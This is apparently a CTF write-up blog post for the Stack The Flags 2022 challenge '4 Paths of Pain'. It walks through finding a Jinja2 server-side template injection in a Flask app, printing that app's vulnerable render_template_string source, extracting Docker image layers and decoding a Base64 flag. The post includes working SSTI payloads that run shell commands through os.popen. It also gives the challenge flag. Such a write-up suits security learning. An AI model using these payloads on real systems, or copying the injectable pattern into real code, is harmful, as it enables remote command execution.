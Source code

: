 ```yaml
---
title: "Stack The Flags 2022 - 4 Paths of Pain (Misc)"
date: 2022-12-14T09:34:30-04:00
categories:
  - CTF
tags:
  - CTF
  - STF22
  - SSTI
  - Flask
  - Jinja2
comments: true

---
```



Recently, a few colleagues and I participated in **Stack The Flags 2022**, a CTF organised by **Govtech Singapore**. My goal was to learn a thing or two from trying to solve the challenges even if I was not able to successfully complete them.

The CTF was 48 hours and had over 50 challenges spanning from multiple categories such as Forensics, Web, Crypto, OSINT and etc.

This is my writeup for one of the Misc challenge, **4 Paths of Pain**.

![pain.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/pain.jpg)

## 4 Paths of Pain 

* Flag: ```STF22{P41n_1s_411_th3_s4m3}```
* Category: Misc
* Difficulty: Easy
* Points: 1000 (Decayed to 400 points by the end of the CTF)

---

### Inspecting the Web App


Main Page:
![index.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/index.png)


Source Code:
![sourcecode.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/sourcecode.png)

```html
<h1>I can't seem to find the defense blueprints man</h1>
<p hidden>Hey Jaga, please help us defend our village, I have left the blueprints of the secret weapon in a file - blueprint.img. It's hidden in layers so even if Pain does get it, he cant view it. </p>
<p hidden> Remember to take a look at the source code of this server! it should help you locate what you need. God speed! - Corona2019</p>
<input hidden type="button" onclick="location.href='?nopain=haha';" value="haha" />
```

The source code revealed to us that the secret weapon is in a file called 'blueprint.img'.
We also observed that there is a hidden button that points to `?nopain=haha`

![parameter.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/parameter.png)

Navigating to the URL, we see that the web application displays the input after `?nopain=`

With this knowledge, we probe further using Postman to try and find more information about the webserver.

In the headers of the response, we see that the server is using Werkzeug 2.2.2.

![werkzeug.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/werkzeug.png)

I started to do some OSINT on Werkzeug to find any known vulnerabilities related to it. During my research, I found this [writeup][htb-doctor] by Zander Work which showcased Server-Side Template Injection (SSTI). According to Zander Work, *SSTI vulnerability is present when unsanitized input is passed to a template before it is rendered, rather than as an input to the render engine as it renders the template.* Hence, I prepared a simple payload for Jinja2 to test for SSTI vulnerability.

\{\{7*7\}\}

If the web application is vulnerable to SSTI, the expected response will be 49. I do not have a screenshot of this but I remember doing this step to confirm that this web server was truly vulnerable to SSTI.

### Exploiting SSTI Vulnerability

With that, I prepared a payload to list the files in the current directory.
![ls.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/ls.jpg)

We can see that there are 4 files with `blueprint.img` being one of them.
```
-app.py
-blueprint.img
-requirements.txt
-templates
```
Inspecting `requirements.txt` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat requirements.txt").read()}}{% endraw %}
```
```
click==8.1.3
Flask==2.2.2
itsdangerous==2.1.2
Jinja2==3.1.2
MarkupSafe==2.1.1
Werkzeug==2.2.2
```
We observed that Jinja2 was installed.

Inspecting `app.py` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}{% endraw %}
```
```python
from flask import Flask, render_template, make_response, request, render_template_string, send_file from datetime import datetime import base64 app = Flask(__name__)

@ app.route('/')

def page2():
  if request.args.get('nopain'):
  return render_template_string(request.args.get('nopain'))
  else:
    return render_template('defendthevillage.html')

@ app.route('/defendthevillagefrompain', methods=['GET'])

def page3():
  try: return send_file('./blueprint.img')
  except Exception as e:
    return str(e) if __name__ == "__main__": app.run(host="0.0.0.0", port=8086)
```
From the source code, we noticed that there is a path to `/defendthevillagefrompain`. A `GET` request to `157.245.52.169:32512/defendthevillagefrompain` will return `./blueprint.img`. We managed to download `blueprint.img` once we entered the URL in the browser.

### Analysing Blueprint.img

![blueprint.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/blueprint.png){:height="350px" width="350px"}

We found out that we could easily use 7Zip to extract and reveal the content in blueprint.img.

![7zip.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/7zip.png){:height="700px" width="700px"}

Looking at `786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json`, it seems like the creator of the challenged copied secret-message.txt from his environment into one of the container volumes.

```
...
    {
      "created": "2022-11-18T02:49:23.301698469Z",
      "created_by": "COPY secret-message.txt /usr/src/app # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
...

```
The log file tells us that  `secret-message.txt` is stored in the location `/usr/src/app`. While there were a few folders, this narrows down the folder we will be looking for. By browsing through the different folders, we managed to find `secret-message.txt` in `23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar` using 7zip.

![secretmessagefound.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessagefound.png){:height="700px" width="700px"}

### Revealing the secret message... (wait a minute)

We opened `secret-message.txt` expecting to find a flag but it was just a message telling us to find the last hiding place.

![secretmessage.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessage.png){:height="350px" width="350px"}

At this point we didn't really know what to do with this information but we thought that the location looks a little familiar. We thought it could either be the name of a Github or Dockerhub Repo.

So we searched on DockerHub and at last, we found the last hiding place!

![dockerhub.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/dockerhub.png)

The description of the Docker Image - `U1RGMjJ7cDQxbl8xc180MTFfdGgzX3M0bTN9` looks like an encoded string of text.

To decode this string of text, we used the magic wand feature in CyberChef which was able to identify that the encoded string was in Base64.


![cyberchef.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/cyberchef.png)

Finally, we were able to find the flag for this challenge! We managed to use the secret weapon and defend Konoha against Pain!

![iruka.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/iruka.jpg)



[htb-doctor]: https://zanderwork.com/blog/htb-doctor/
